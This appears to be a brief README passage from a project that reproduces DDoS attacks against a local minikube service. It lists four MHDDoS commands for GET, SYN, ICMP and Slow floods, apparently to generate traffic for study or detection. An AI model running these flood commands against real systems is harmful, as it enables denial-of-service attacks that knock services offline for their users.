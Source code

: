 For some of the attacks, you need a proxy file, that in this case is empty, for more detailed information consult the MHDDOS [Documentation](https://github.com/MatrixTM/MHDDoS)



Before replicating the attacks, clone the MHDDOS Repository and enter inside it.



These were the commands used for Generate the attacks



```bash
sudo python3 start.py GET $(minikube ip):32677 1 300 http.txt 0 3800 # Get Flood
sudo python3 start.py SYN $(minikube ip):32677 3000 3800 # SYN Flood
sudo python3 start.py ICMP $(minikube ip):32677 30 3800 # Classic DDOS
sudo python3 start.py SLOW $(minikube ip):32677 1 30 http.txt 0 3800 # Slow DDOS
```
